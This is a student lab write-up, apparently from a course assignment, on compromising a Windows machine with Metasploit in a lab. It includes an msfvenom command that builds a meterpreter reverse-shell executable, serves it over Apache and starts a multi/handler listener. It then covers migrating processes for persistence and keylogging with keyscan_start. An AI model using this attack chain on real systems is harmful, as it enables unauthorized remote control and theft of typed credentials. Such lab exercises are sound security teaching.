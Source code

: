 ```
NAME : PRADEEP V
DEPT : AIML
REG NO : 212223240119

```

# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## Find the attackers ip address using ifconfig
## OUTPUT :
![01](https://github.com/user-attachments/assets/6d4b7dc2-9950-4ee1-ad5b-7a247b00e1c9)
## Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![02](https://github.com/user-attachments/assets/427d9c0f-9413-49e7-8de7-8e52b860d6a0)

copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start

## Check the status of apache2

## OUTPUT:
![03](https://github.com/user-attachments/assets/a863c28e-5826-4da0-b262-25763c1fa189)

## Invoke msfconsole:

## OUTPUT:
![04](https://github.com/user-attachments/assets/5745e5f4-8a7d-4930-92b8-a6bc1082df87)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:
![05](https://github.com/user-attachments/assets/18c05983-d6fe-419a-8c1d-48cf8298d835)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## OUTPUT:
![RECENT](https://github.com/user-attachments/assets/e2d42aa5-d92c-4af3-9f69-f5fb44a87807)
## WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads
## BROWSE OUTPUT :
![G1](https://github.com/user-attachments/assets/6364fe83-6790-46bd-80fa-f583d0754b1c)

## DOWNLOAD OUTPUT :
![G2](https://github.com/user-attachments/assets/f4021c4a-bed5-4a39-93bf-f7151bd12334)

## COME BACK TO PARROT :
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

## OUTPUT :

![og 06](https://github.com/user-attachments/assets/ffeb84a3-9d3f-4eff-b53b-9853175bdb51)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

## OUTPUT:

![07](https://github.com/user-attachments/assets/6dc41c79-35b6-4597-a55c-8e5c91802eb4)

## WINDOWS OUTPUT :
![G3](https://github.com/user-attachments/assets/36c6ad28-4fd4-47ec-92f9-151092072255)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![09](https://github.com/user-attachments/assets/ba95e33d-16be-4438-8e06-68ccd4873148)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
